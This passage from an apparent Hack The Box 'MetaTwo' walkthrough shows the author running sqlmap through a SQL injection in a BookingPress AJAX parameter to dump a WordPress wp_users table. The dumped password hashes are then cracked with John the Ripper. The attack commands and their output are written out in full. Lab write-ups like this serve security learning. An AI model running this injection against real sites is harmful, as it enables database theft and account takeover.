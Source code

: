 Dumping `wp_users` tables data

```
sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service -D blog -T wp_users --dump
```

```
Database: blog
Table: wp_users
[2 entries]
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url             | user_pass                          | user_email            | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb   | admin      | 0           | admin        | admin         | 2022-06-23 17:58:28 | <blank>             |
| 2  | <blank>              | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | manager    | 0           | manager      | manager       | 2022-06-23 18:07:55 | <blank>             |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+

[11:15:30] [INFO] table 'blog.wp_users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/metapress.htb/dump/blog/wp_users.csv'
[11:15:30] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/metapress.htb'
```

Now, I found 2 users: `admin` & `manager` and got their password hashes too.

So, i decided to use `John the ripper` to crack the password

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ cat hash 
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70


┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?)     
1g 0:00:02:56 34.59% (ETA: 13:20:51) 0.005666g/s 28927p/s 29553c/s 29553C/s nibbles1001..niavillegas
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session aborted

```
